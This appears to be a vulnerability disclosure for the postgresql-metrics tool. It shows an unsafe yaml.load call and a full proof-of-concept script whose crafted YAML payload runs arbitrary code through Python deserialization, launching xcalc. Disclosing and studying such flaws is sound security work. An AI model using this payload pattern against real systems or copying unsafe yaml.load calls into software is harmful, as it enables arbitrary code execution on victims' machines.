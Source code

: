 # Description
Tool that extracts and provides metrics on your PostgreSQL database
* **Vulnerability discription**
unsafe loading of data by the yaml.load function leading to Arbitrary code execution.
# Proof of Concept
* Vulnerable code part 
```python
read_config_dict = yaml.load(f)
#https://github.com/spotify/postgresql-metrics/blob/master/postgresql_metrics/common.py#L116
```
1. run exploit.py
```python
# exploit.py
import os
#SETUP
os.system('git clone https://github.com/spotify/postgresql-metrics')
os.system('pip install -r postgresql-metrics/requirements.txt')
os.system('python postgresql-metrics/setup.py install')
import postgresql_metrics.common as ppyfile
#PAYLOAD SECTION
exploit = """!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
os.system('rm -r exploit.yml')
open('exploit.yml','w+').write(exploit)
#RUN THE EXPLOIT ON THE VULNERABLE PART
ppyfile.find_and_parse_config('exploit.yml')
os.system('rm -r exploit.yml')
```
![](https://user-images.githubusercontent.com/43377443/103290032-984b4780-4a0e-11eb-8875-783a29efdbe9.png)
